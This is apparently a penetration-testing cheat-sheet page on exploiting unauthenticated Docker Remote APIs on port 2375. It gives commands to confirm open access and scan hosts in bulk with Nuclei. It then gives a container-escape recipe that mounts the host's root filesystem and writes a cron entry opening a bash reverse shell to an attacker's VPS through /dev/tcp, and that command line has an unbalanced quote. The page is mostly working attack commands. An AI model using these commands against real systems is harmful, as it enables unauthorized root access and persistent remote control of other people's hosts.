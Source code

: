 # Docker

<details>

<summary>Introduction</summary>

Docker 是一种开源的容器化平台，用于构建、发布和管理应用程序和其依赖的轻量级容器。容器是一种独立、可移植的软件包，其中包含了应用程序运行所需的所有组件，如代码、运行时环境、系统工具和库。Docker 利用操作系统级虚拟化技术，使得应用程序可以在几乎任何环境中以相同的方式运行，无论是开发、测试、部署到生产环境还是在云端。它提供了简单易用的命令行接口和丰富的功能，如镜像管理、容器网络和存储卷等，成为了现代软件开发和部署的核心工具之一。

</details>

<table><thead><tr><th width="178">Name</th><th>Docker</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>2375</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access</li><li>Container Escape (GetShell)</li></ul></td></tr></tbody></table>

## Unauthorized Access

{% code title="Environment" %}
```bash
HOST=; PORT=2375; # TARGET HOST INFO
```
{% endcode %}

{% code title="Validation" %}
```bash
curl $HOST:$PORT/version
curl $HOST:$PORT/info
docker -H tcp://$HOST:$PORT images
docker -H tcp://$HOST:$PORT container
```
{% endcode %}

### Batch Testing

{% code title="Use Nuclei" %}
```bash
nuclei -t ~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml -l hosts-port.txt
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/exposed-docker-api.yaml
```
{% endcode %}

## Container Escape

{% code title="Environment" %}
```bash
HOST=; PORT=2375; # TARGET HOST INFO
```
{% endcode %}

{% code title="Container Escape" %}
```bash
# Create a container using Docker on the target host
# If there is no network, try adding --network host
docker -H tcp://$HOST:$PORT run -it -v /:/mnt nginx:latest --name nginx-test /bin/bash

# Inside the container
HOST=; PORT=6789; # VPS INFO
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1 > /mnt/etc/cron.d/reverse_shell
```
{% endcode %}
